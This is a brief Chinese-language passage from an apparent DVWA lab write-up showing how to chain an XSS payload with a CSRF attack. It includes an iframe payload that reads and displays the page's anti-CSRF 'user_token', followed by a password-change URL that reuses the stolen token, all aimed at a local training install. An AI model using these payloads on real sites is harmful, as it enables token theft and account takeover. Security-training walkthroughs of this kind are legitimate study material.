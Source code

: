 ![image-20250510203601545](image-20250510203601545.png)

有字数限制，先改字数，再上传

![image-20250510204114263](image-20250510204114263.png)

 ```js
 <iframe src="http://127.0.0.1/DVWA/vulnerabilities/csrf/index.php"onload=alert(frames[0].document.getElementsByName('user_token')[0].value)></iframe>
 ```

会弹出它的**user_token**

获得user_token后再用上面的方法

```
http://127.0.0.1/DVWA/vulnerabilities/csrf/index.php?password_new=1&password_conf=1&Change=Change&user_token=ee164777d981c0d56060b22569c6b81f#
```

























